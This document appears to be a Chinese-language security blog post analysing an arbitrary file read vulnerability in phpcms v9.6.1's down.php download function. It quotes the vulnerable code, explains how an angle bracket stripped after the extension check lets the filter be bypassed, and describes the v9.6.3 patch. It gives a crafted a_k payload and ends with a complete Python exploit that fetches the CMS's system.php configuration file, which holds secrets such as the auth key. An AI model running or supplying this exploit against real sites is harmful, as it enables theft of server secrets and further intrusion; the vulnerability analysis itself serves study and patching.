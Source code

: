 phpcms v9.6.1 爆出的任意文件读取漏洞， 来一起分析以下，这次漏洞可以说和9.6.0爆出来的sqli注入漏洞有一些联系，漏洞文件和漏洞利用方法都是一样的，只是这次漏洞点在down.php的download函数


我们定位到漏洞函数`/phpcms/modules/content/down.php` Line 103-127

```php
public function download() {
	$a_k = trim($_GET['a_k']);
	$pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');
	$a_k = sys_auth($a_k, 'DECODE', $pc_auth_key);
	if(empty($a_k)) showmessage(L('illegal_parameters'));
	unset($i,$m,$f,$t,$ip);
	$a_k = safe_replace($a_k);
	parse_str($a_k);		
	if(isset($i)) $downid = intval($i);
	if(!isset($m)) showmessage(L('illegal_parameters'));
	if(!isset($modelid)) showmessage(L('illegal_parameters'));
	if(empty($f)) showmessage(L('url_invalid'));
	if(!$i || $m<0) showmessage(L('illegal_parameters'));
	if(!isset($t)) showmessage(L('illegal_parameters'));
	if(!isset($ip)) showmessage(L('illegal_parameters'));
	$starttime = intval($t);
	if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$f) || strpos($f, ":\\")!==FALSE || strpos($f,'..')!==FALSE) showmessage(L('url_error'));
	$fileurl = trim($f);
	if(!$downid || empty($fileurl) || !preg_match("/[0-9]{10}/", $starttime) || !preg_match("/[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}/", $ip) || $ip != ip()) showmessage(L('illegal_parameters'));	
	$endtime = SYS_TIME - $starttime;
	if($endtime > 3600) showmessage(L('url_invalid'));
	if($m) $fileurl = trim($s).trim($fileurl);
	if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$fileurl) ) showmessage(L('url_error'));
	//远程文件
	if(strpos($fileurl, ':/') && (strpos($fileurl, pc_base::load_config('system','upload_url')) === false)) { 
		header("Location: $fileurl");
	} else {
		if($d == 0) {
			header("Location: ".$fileurl);
		} else {
			$fileurl = str_replace(array(pc_base::load_config('system','upload_url'),'/'), array(pc_base::load_config('system','upload_path'),DIRECTORY_SEPARATOR), $fileurl);
			$filename = basename($fileurl);
			//处理中文文件
			if(preg_match("/^([\s\S]*?)([\x81-\xfe][\x40-\xfe])([\s\S]*?)/", $fileurl)) {
				$filename = str_replace(array("%5C", "%2F", "%3A"), array("\\", "/", ":"), urlencode($fileurl));
				$filename = urldecode(basename($filename));
			}
			$ext = fileext($filename);
			$filename = date('Ymd_his').random(3).'.'.$ext;
			$fileurl = str_replace(array('<','>'), '',$fileurl);
			file_down($fileurl, $filename);
		}
	}
}
```

这个函数开始几行代码的作用和init函数中的几乎一样，都是从parse_str 解析传入的a_k参数，但这里调用了safe_replace函数过滤。

和文件名有关的参数是$s,$f。 这两个参数都是通过parse_str解析变量得到，然后程序对$f参数过滤，过滤规则如下：

```php
if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$f) || strpos($f, ":\\")!==FALSE || strpos($f,'..')!==FALSE) showmessage(L('url_error'));
$fileurl = trim($f);
```

过滤了一些黑名单，空格以及目录跳跃,之后把$s和$f作为下载文件路径:

    if($m) $fileurl = trim($s).trim($fileurl);


再把拼接后的文件名过滤一次，程序继续运行，来到最关键的一步:

```php
$fileurl = str_replace(array('<','>'), '',$fileurl);
file_down($fileurl, $filename);
```

file_down函数是文件下载函数，调用readfile读取文件，在进入这个函数之前还用了一个`str_replace` 函数去除了大小括号，这就为我们绕过提供了思路，我们只需要构造 php< 或 php> 这样的后缀，就可以绕过正则， 之后被str_replace去掉了括号，就可以下载被过滤的文件后缀了。

a_k 的构造还是通过之前phpcms v9.6.0 sqli 那个构造cookie, 具体流程如下:

![image.png](http://upload-images.jianshu.io/upload_images/2159605-e8383f048af4b625.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

payload 如下:

    &i=1&m=1&d=1&modelid=2&catid=6&s=./phpcms/modules/content/down.ph&f=p%3%252%2*70C

放入src参数中，解后的`$s=./phpcms/modules/content/down.ph`, $f=p%3%252%2*70C


$f 的取值为`p%3%252%2*70C` --safe_replace->  `p%3%252%270C` --safe_replace--> `p%3%2520C` --parse_str--> `p%3%20C`  --safe_replace-->`p%3C`  --parse_str--> `p<`  --str_replace-->`p`

最后和$s拼接就拼接出来了php，绕过了正则了， 过程也是比较复杂， 但payload构造骚，值得学习。

### 补丁分析
phpcms v9.6.3 修复了该漏洞, 就是在用str_replace函数去掉括号后再用正则过滤了一次。

![image.png](http://upload-images.jianshu.io/upload_images/2159605-26b7ab50da1fdc02.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


写了一个读取system.php配置文件的exp:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
"""
phpcmsv9.6.0 sqli verify and attach poc
"""

import requests
import re
from urllib import quote

TIMEOUT = 3


def geta_k(url,payload):
    url = url if '://' in url else 'http://' + url
    url = url.split('#')[0].split('?')[0].rstrip('/').rstrip('/index.php')

    cookies = {}
    #print 'step1'
    step1 = '{}/index.php?m=wap&a=index&siteid=1'.format(url)
    #print 'step1',step1
    for c in requests.get(step1,timeout=TIMEOUT).cookies:
        if c.name[-7:] == '_siteid':
            cookie_head = c.name[:6]
            cookies[cookie_head + '_userid'] = c.value
            cookies[c.name] = c.value
            break
    else:
        return False
    
    step2 = "{}/index.php?m=attachment&c=attachments&a=swfupload_json&src={}".format(url, quote(payload))
    #print 'step2:',step2,cookies
    for c in requests.get(step2, cookies=cookies, timeout=TIMEOUT).cookies:
        if c.name[-9:] == '_att_json':
            enc_payload = c.value
            return enc_payload
            break
    else:
        return False



def download(url):
    url = url if '://' in url else 'http://' + url
    url = url.split('#')[0].split('?')[0].rstrip('/').rstrip('/index.php')

    # 以获取system.php配置文件为例，其他文件可以自行修改链接即可,只能下载cms的php文件
    payload = "&i=1&m=1&d=1&modelid=2&catid=6&s=caches/configs/system.ph&f=p%3%252%2*70C"
    a_k =  geta_k(url,payload)

    url3 = url+"/index.php?m=content&c=down&siteid=1&a=init&a_k="+a_k
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0'}
    html = requests.get(url3,headers=headers)
    res = re.findall(r'<a href="(.*?)" class="xzs_btn"></a>',html.content)
    if res[0]:
        downfile = res[0]
    else:
        return False
    url4 = url+'/index.php'+downfile
    rep = requests.get(url4,headers=headers)
    print rep.content



if __name__ == '__main__':
    download('http://localhost/')
```


